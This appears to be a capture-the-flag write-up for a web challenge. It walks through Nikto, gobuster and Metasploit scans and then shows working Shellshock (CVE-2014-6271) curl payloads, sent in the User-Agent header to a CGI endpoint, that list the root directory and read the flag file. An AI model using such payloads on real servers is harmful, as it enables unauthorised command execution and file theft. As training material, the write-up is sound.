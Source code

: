 # Baby Mama Trauma

## Web: 450 Points

## Challenge

We've been working on the template for the new home page. Can you check to see if there's anything we should be worried about?

[ [Start](http://challenges.laptophackingcoffee.org:4242/) ]

Note: The server resets to default every 30 minutes. All progress will be lost.

## Solution


http://challenges.laptophackingcoffee.org:4242/cgi-bin/uptime

http://challenges.laptophackingcoffee.org:4242/script

```javascript
$(document).ready(function(){
	/* This code is executed after the DOM has been completely loaded */
	$('nav a,footer a.up').click(function(e){
		// If a link has been clicked, scroll the page to the link's hash target:		
		$.scrollTo( this.hash || 0, 1500);
		e.preventDefault();
	});

});
```

Nikto:
```
$ nikto -host challenges.laptophackingcoffee.org -p 4242
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          35.237.149.50
+ Target Hostname:    challenges.laptophackingcoffee.org
+ Target Port:        4242
+ Start Time:         2020-07-07 19:36:21 (GMT-6)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Debian)
+ Server may leak inodes via ETags, header found with file /, inode: 1296216, size: 7197, mtime: Wed Feb 17 10:
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some fo
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the si
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /cgi-bin/uptime: Gateway to the unix command, may be able to submit extra commands
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8676 requests: 1 error(s) and 12 item(s) reported on remote host
+ End Time:           2020-07-07 19:46:02 (GMT-6) (581 seconds)
---------------------------------------------------------------------------
```

possibly interesting:
```
+ /cgi-bin/uptime: Gateway to the unix command, may be able to submit extra commands
```

Directory Listing section

https://metalkey.github.io/shellshock-explained--exploitation-tutorial.html

The Shellshock Bug In About Four Minutes

https://youtu.be/aKShnpOXqn0

Remote Exploit ShellShock Vulnerability CVE-2014-6271: 2 Easy Methods

https://www.youtube.com/watch?v=sY-A38zi_GU

```
$ curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/ls /' http://challenges.laptophackingcoffee.org:4242/cgi-bin/uptime
bin
boot
dev
etc
flag.txt
home
lib
lib64
main.sh
...

$ curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/cat /flag.txt ' http://challenges.laptophackingcoffee.org:4242/cgi-bin/uptime
LHC{Sh377ShookD00d}
```

gobuster
```
$ gobuster dir -u http://challenges.laptophackingcoffee.org:4242/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://challenges.laptophackingcoffee.org:4242/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/07 19:37:39 Starting gobuster
===============================================================
/index (Status: 200)
/img (Status: 301)
/script (Status: 200)
/styles (Status: 200)
===============================================================
2020/07/07 19:46:43 Finished
===============================================================
```

msfconsole
```
msf5 auxiliary(scanner/http/dir_scanner) > exploit

[*] Detecting error code
[*] Using code '404' as not found for 35.237.149.50
[+] Found http://35.237.149.50:4242/cgi-bin/ 403 (35.237.149.50)
[+] Found http://35.237.149.50:4242/icons/ 403 (35.237.149.50)
[+] Found http://35.237.149.50:4242/img/ 200 (35.237.149.50)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```